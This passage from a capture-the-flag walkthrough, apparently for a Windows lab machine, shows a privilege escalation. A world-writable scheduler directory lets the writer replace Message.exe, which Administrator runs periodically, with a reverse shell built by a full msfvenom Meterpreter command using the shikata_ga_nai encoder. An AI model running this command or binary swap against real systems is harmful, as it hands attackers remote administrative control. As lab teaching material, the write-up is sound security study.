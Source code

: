 In the **Events** directory, we can see a log file called **20198415519.INI_LOG.txt**.

<img style="float: left;" src="screenshots/screenshot18.png">

Looking inside, we can see that it is filled with log messages of the **Message.exe** file being executed by the Administrator account. Hence, it seems as if the Message.exe file is being periodically run with root permissions. This is great as that means that we can actually replace this file with a reverse shell that we create. Our reverse shell will then be executed by the Administrator account, hence granting us access into the machine with root permissions. 

<img style="float: left;" src="screenshots/screenshot15.png">

From our WinPEAS results earlier on, we also know that we can indeed replace this Message.exe file as the **C:\Program Files (x86)\SystemScheduler** directory is **world writable**!

<br>

Name of binary to exploit: **Message.exe**

---

### [ What is the user flag (on Jeffs Desktop)? ]

On our local machine, let's go ahead and use **msfvenom** again to craft a reverse shell which uses a different port. We also name the reverse shell file as **Message.exe**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=YOUR_IP_HERE LPORT=4446 -f exe -o Message.exe
```

<br>

Next, we use our current Meterpreter session to upload our malicious **Message.exe** file onto our target machine. Make sure to upload the file to the  **C:\Program Files (x86)\SystemScheduler** directory, which will overwrite the existing Message.exe file.

<img style="float: left;" src="screenshots/screenshot19.png">
